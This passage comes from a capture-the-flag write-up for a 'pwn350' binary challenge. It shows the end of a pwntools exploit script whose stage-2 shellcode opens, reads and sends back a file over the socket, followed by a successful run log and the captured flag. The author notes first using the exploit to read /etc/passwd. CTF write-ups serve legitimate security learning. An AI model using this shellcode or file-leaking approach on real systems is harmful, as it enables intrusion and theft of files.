 ```
    stage2 += asm("mov rdi, 0x00601090")
    stage2 += asm("mov rsi, 0x0")
    stage2 += asm("syscall")
    stage2 += asm("mov r15, rax")

    # read flag from fd
    stage2 += asm("mov rax, 0x0")
    stage2 += asm("mov rdi, r15")
    stage2 += asm("mov rsi, 0x00601200")
    stage2 += asm("mov rdx, 0x1000")
    stage2 += asm("syscall")
    
    # write flag to sockfd
    stage2 += asm("mov rax, 0x1")
    stage2 += asm("mov rdi, 0x6")
    stage2 += asm("mov rsi, 0x00601200")
    stage2 += asm("mov rdx, 0x1000")
    stage2 += asm("syscall")

    r.send(stage2)

    print "hit enter to send flag location"
    raw_input()
    r.send("/home/ctf/flag\x00")

    print r.recv()

else:
    print "can't exploit this one."
```

If you're wondering how I knew where the flag was, I initially didn't. I assumed it was in the same directory as the running binary but it wasn't. I initially used the exploit to leak the contents of /etc/passwd to find /home/ctf. 


I had to try the exploit several times. It worked best when the bytes read was greater than the buffer size by over 100 bytes. When it finally worked:

```plain
saving binary as "mybin"
[+] Opening connection to 52.20.10.244 on port 8888: Done
[+] Recieving all data: Done (8.75KB)
[*] Closed connection to 52.20.10.244 port 8888
[*] '/root/Desktop/pwn350/mybin'
    Arch:          amd64-64-little
    RELRO:         Partial RELRO
    Stack Canary:  No canary found
    NX:            NX enabled
    PIE:           No PIE
port: 18716
toread: 369
bufsiz: 200
exploitable!
[+] Opening connection to 52.20.10.244 on port 18716: Done
sending stage 1
hit enter to send stage 2

hit enter to send flag location

flag{c4nt_w4it_f0r_cgc_7h15_y34r}
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00...
[*] Closed connection to 52.20.10.244 port 18716
```

Win! Flag is **flag{c4nt_w4it_f0r_cgc_7h15_y34r}**
